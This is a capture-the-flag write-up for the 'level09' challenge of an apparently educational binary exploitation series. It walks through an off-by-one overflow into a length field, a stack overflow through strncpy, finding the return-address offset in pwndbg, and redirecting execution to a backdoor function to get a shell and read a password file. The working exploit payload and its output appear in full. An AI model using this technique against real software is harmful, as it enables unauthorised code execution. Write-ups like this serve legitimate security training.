 # level09

This program revolves around the following structure:

```c
typedef struct msg {
    char content[140];
    char username[40];
    int len;
} msg_t;
```

The function `set_username` seems mostly secure, but has a subtle bug:

```c
for (int i = 0; i < 41 && buf[i] != '\0'; i++) {
    m->username[i] = buf[i];
}
```

Here, `m->username` is only 40 bytes long, but the loop allows writing up to 41 bytes, resulting in a 1-byte overflow into the adjacent field `m->len`.

This is critical, because `m->len` is later used in `set_msg`:

```c
fgets(buf, 1024, stdin);
strncpy(m->content, buf, m->len);
```

By overflowing `m->len` and setting it to `0xff` (255), we can force `strncpy` to write up to 255 bytes into `m->content`, which is only 140 bytes.

Now, we use a pattern generator to determine the offset to the return address (`RIP`):

```bash
pwndbg> r <<< $(perl -e 'print "A" x 40 . "\xff" . "\n" . "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9" . "\n"')
...
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555400931 in handle_msg ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
...
 RBP  0x6741356741346741 ('Ag4Ag5Ag')
 RSP  0x7fffffffd008 ◂— '6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4'
 RIP  0x555555400931 (handle_msg+113) ◂— ret
```

The program crashed, and `RBP` is overwritten with part of our pattern (`Ag4Ag5Ag`). Since `RIP` comes 8 bytes after `RBP` on the stack, we just add 8 to the offset (192).

`Offset to RIP = 192 + 8 = 200`

Next, we find the address of the hidden `secret_backdoor` function, which contains a `system` call:

```bash
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

We build a payload that:

- Overflows the username buffer to set `m->len = 0xff`
- Overflows content to overwrite `RIP` with the address of `secret_backdoor`
- Passes `/bin/sh` to be executed by `system`

```bash
python -c 'print("A" * 40 + "\xff\n" + 200 * "B" + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1] + "\n/bin/sh\n")'
```

And here goes the last flag:

```bash
level09@OverRide:~$ (cat <(python -c 'print("A" * 40 + "\xff\n" + 200 * "B" + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1] + "\n/bin/sh\n")') -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
<flag>
```
